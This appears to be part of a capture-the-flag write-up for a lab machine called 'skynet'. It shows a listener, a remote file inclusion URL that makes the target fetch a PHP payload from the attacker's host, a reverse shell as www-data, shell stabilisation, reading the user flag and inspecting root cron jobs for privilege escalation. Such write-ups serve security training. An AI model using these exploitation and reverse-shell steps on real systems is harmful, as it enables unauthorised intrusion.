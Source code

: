 Started python web server

	python -m http.server

Started listener
	
	rlwrap nc -lvnp 4449

Exploiting 25971

	Visiting "http://10.10.204.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$MYIP:8010/cats.php"

## Yay! Reverse shell achieved

	$ pwd;whoami;id
	/
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)


# PrivEsc

## Stabalisation

	$ python -c 'import pty; pty.spawn("/bin/bash")'

## Movement

	www-data@skynet:/$ cd /home/milesdyson
	www-data@skynet:/home/milesdyson$ ls -la
		lrwxrwxrwx 1 root       root          9 Sep 17  2019 .bash_history -> /dev/null
		-rw-r--r-- 1 milesdyson milesdyson  220 Sep 17  2019 .bash_logout
		-rw-r--r-- 1 milesdyson milesdyson 3771 Sep 17  2019 .bashrc
		-rw-r--r-- 1 milesdyson milesdyson  655 Sep 17  2019 .profile
		drwxr-xr-x 2 root       root       4096 Sep 17  2019 backups
		drwx------ 3 milesdyson milesdyson 4096 Sep 17  2019 mail
		drwxr-xr-x 3 milesdyson milesdyson 4096 Sep 17  2019 share
		-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
	www-data@skynet:/home/milesdyson$ cat user.txt

*Flag Found*<details><summary>Spoiler</summary></details>

	www-data@skynet:/home/milesdyson$ cat /etc/crontab
		SHELL=/bin/sh
		PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

		# m h dom mon dow user  command
		*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
		17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
		25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
		47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
		52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
	
